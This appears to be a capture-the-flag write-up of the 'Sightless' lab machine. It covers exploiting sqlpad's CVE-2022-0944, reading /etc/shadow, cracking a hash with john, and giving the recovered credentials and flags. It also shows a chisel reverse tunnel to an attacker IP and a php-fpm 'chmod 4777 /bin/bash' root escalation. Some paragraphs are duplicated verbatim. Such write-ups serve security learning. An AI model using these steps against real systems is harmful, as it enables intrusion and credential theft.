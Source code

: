 ```yaml
---
sticker: lucide//eye-off
---
```


# SIGHTLESS

## ENUMERATION

***

### OPEN PORTS

***

| PORT | SERVICE |
| ---- | ------- |
| 21   | FTP     |
| 22   | SSH     |
| 80   |         |

Let's start with reconnaissance.

## RECONNAISSANCE

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250107170937.png)

`echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts 2>/dev/null`

![](gitbook/cybersecurity/images/Pasted%20image%2020250107171213.png)

Now we can access the website, we have a `home`, `about`, `services` and a `contact us` part, if we go to the service part, we can see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107171349.png)

We got a `sqlpad` service, if we click start now, we are redirected to `sqlpad.sightless.htb`, let's add this subdomain to `/etc/hosts` too:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107171612.png)

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107172243.png)

Let's check the web and see if there's anything related to this version:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107182931.png)

## EXPLOITATION

***

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107172243.png)

Let's check the web and see if there's anything related to this version:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107182931.png)

Let's \[\[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize the shell]], we would think that we already beat the machine since we got root access but no, we are inside of a docker container, we need some sort of way to get into the real machine, that's when we find 2 users, Michael and node:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107183525.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250107183536.png)

Since we already have root access in the docker container, let's read `/etc/shadow` and get the hash for michael user:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107183633.png)

```ad-note
Michael hash is: 

`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`

----
We need to crack this hash using john, let's do it:

`john hash -w=/usr/share/wordlist/rockyou.txt`

----
This will output: `insaneclownposse`


Let's log into ssh using those credentials:


`michael`:`insaneclownposse`
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250107184751.png)

Now we are inside of michael's account, we can read the user flag now:

```ad-note
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107184841.png)
user flag: `fa24b7668682e82a648c821ccf0d9526`
```

## Privilege escalation

***

Let's proceed with privesc.

We'll be using linpeas to show use some possible PE vectors:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107185646.png)

There is a weird connection made to the port `8080`, we need to investigate this, for this, we will use chisel as we need to resend the traffic back to our local machine:

```ad-hint

##### Doing a reverse proxy
---
1. `chisel server -p 9999 --reverse`
2. `chmod +x chisel`
3. `./chisel client 10.10.15.36:9999 R:8080:127.0.0.1:8080`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107192250.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107192300.png)

```

Now, let's visit the page:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107192343.png)

It's executing froxlor, in order to get the credentials, we'll be using the following exploit: [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/), this is basically a chrome remote debugger pentest, since the machine is running chrome actively, we can use this to exploit and access the credentials, once we've reproduce all the steps accordingly to the notes, we get the following credentials:

```ad-note

`admin`:`ForlorfroxAdmin`

```

Let's log into the panel:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107193550.png)

We got access to the panel, as seen, we have a php section, this has the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107193639.png)

We got `php-fpm`, we are able to execute php code, we can do the following:

```ad-note
1. Create new PHP version
2. `chmod 4777 /bin/bash`
3. Go to `/system/settings/php-fpm`, disable it and enable it again
4. Go to our terminal and perform `/bin/bash -p`
5. Get root shell
```

```ad-important
If we did all correctly, we are able to get root access:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107194238.png)

This is the root flag:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107194255.png)

Root: `1c4c6860beaa42a5b9b8e404fbcbf656`


```
